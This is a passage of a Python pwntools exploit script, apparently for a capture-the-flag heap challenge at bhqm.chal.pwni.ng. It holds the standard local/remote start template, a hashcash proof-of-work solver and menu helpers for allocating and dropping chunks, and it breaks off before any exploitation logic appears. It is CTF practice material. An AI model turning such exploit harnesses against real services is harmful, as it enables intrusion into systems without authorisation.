 ```py
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'bhqm.chal.pwni.ng'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug(['wine', exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process(['wine', exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript ='''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

if args.REMOTE and not args.HOST:
    context.newline = b'\n'
    hashcash = io.recvuntil(b'\n', drop=True)
    assert hashcash.startswith(b'hashcash -qmb24 ')
    log.warning("~-~ Solving HashCa$H ~-~")
    out = subprocess.check_output(hashcash.split(b' '))
    io.sendline(out[:-1])

def print_storage():
    s = io.recvuntil(b'Storage: ')
    print(s + io.recvuntil(b'\n'))

def alloc(size):
    assert size < 10000, "alloc fail: 10k is max alloc?"
    io.recvuntil(b'choice?')
    io.sendline(b'1')
    io.recvuntil(b'size?')
    io.sendline(str(size).encode())
    print_storage()

def drop(idx):
    io.recvuntil(b'choice?')
    io.sendline(b'2')
```